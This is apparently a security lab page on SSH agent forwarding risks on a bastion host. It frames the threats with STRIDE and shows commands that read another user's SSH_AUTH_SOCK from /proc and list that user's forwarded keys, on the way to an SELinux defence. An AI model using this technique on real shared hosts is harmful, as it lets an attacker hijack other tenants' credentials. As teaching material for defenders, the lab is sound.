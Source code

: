 ```yaml
---
sidebar_position: 4
title: 3. What info can adjacent SSH tenants access?
tags:
  - Lab 
---
```


## Threat Context

Recall that this is a jumpbox/bastion-host, so it's reasonable to make an assumption that everyone on here is authenticated (via SSH) to be on the box. However due to differing levels of authorization within an organization/company it's likely that where they can connect to after that will vary a lot based on their privilege levels.

Hence the primary threats[^1] are:
1. Spoofing -> using forwarded credentials from another tenant to access a server as them.
2. Denial of Service (via Tampering) -> modifying their agent credentials so they cannot access downstream hosts.
3. Information Disclosure -> observing any sensitive data in their SSH session that you should not have access to.

## How you can perform the attack on yourself to learn

Once you're connected to the host with your SSH client, in your other SSM console (the one in the browser on console.aws.amazon.com) run the following:
```
# ps -u ec2-user
  PID TTY          TIME CMD
 8973 ?        00:00:00 sshd
 8974 pts/1    00:00:00 bash
```

We can then get that bash process ID (PID) and dump the environment variables for the process:    
`cat /proc/8974/environ`

we are looking for the _SSH_AUTH_SOCK_ environment variable, which will look something like this:    
`SSH_AUTH_SOCK=/tmp/ssh-423TlzrQBq/agent.8973`

This is a [socket file](https://en.wikipedia.org/wiki/Unix_domain_socket) that allows the key sharing between the remote client and the ssh-agent on this server.

So for the users available to us from the SSM console (`ssm-user` or `root`) we don't have any ssh-agent identities:
```
(root)# ssh-add -L
The agent has no identities.
```

However now if we use the environment variable we found for the SSH_AUTH_SOCK we can dump out what the `ec2-user` forwarded to the host:
```
(root)# SSH_AUTH_SOCK=/tmp/ssh-423TlzrQBq/agent.8973 ssh-add -L
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP+Zj68BITqTICXyjdyzLoBlwbNrPoGEVbB7gsJJ93UW secret-example-key
```

:scream: we see the ssh key I had forwarded from my laptop agent that I was going to use to connect to _THE FINANCE DATABASE HOST_ (for example).
This is how any observer on the Bastion could also do the same if they knew how to find and use the same `SSH_AUTH_SOCK` as me.

## But does this actually happen much in the real world?

Yes, yes it does. For example, in 2019 matrix.org had a [security incident](https://matrix.org/blog/2019/05/08/post-mortem-and-remediations-for-apr-11-security-incident) caused directly from their usage of SSH Agent forwarding.

There are of course some [other measures](https://medium.com/kernel-space/why-using-ssh-agent-forwarding-is-a-bad-idea-6cbdff31bbee) one could take to defend against this, but for the purpose of this lab lets ignore their existence and use SELinux to defend against the issue.

[^1]: I was intentionally using terms from the [STRIDE threat-modeling framework](https://en.wikipedia.org/wiki/STRIDE_(security)) here for internal consistency when describing threats.